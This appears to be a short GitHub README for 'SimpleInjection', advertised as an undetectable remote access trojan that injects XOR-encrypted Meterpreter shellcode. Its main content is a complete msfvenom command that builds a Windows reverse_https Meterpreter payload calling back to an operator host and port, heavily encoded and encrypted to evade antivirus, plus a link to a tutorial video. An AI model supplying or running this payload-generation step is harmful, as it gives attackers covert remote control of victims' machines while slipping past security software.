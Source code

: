 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector)

watch my video on Youtube: https://youtu.be/9TmrtGeIiUY

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp


![7R5CcVwJfzn3](https://user-images.githubusercontent.com/121404035/210647849-107fb416-314d-4eeb-a4e1-ef55199f8b42.png)
